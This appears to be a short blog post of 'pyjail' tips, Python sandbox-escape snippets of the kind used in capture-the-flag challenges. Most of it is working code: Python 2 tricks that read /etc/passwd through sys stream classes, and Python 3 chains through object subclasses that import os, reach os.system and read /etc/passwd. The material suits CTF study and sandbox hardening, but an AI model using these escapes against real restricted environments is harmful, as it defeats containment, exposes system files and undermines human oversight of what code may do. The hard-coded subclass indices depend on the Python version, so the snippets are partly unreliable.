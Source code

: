 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<h3>python2</h3>



__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```




<h3>python3</h3>



__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#<class '_frozen_importlib.BuiltinImporter'>
```



__run " os "__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#<built-in function system>
#<class 'os._wrap_close'>
```



__run  from sys import modules __

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#<module 'os' (built-in)>
#<built-in function system>
```



__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#<class '_frozen_importlib_external.FileLoader'>
```

